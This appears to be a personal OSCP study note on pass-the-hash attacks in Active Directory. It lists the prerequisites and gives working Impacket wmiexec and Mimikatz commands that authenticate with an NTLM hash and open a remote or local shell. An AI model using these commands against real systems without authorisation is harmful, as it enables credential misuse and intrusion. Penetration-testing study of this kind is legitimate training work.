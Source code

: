 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/o-active-directory-movement/3-pass-the-hash/"}
---
```


----------
### Theory:
- Requires:
	- User that authenticates **often** needs to be part of Administrator local group
	- SMB connection through firewall (commonly port 445)
	- Windows File and Printer Sharing enabled
	- ADMIN$ share available

---------
### Remote PtH Shell with Impacket:
In Kali:
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
--------------------
### PtH with Mimikatz:
```
sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:”powershell”
```

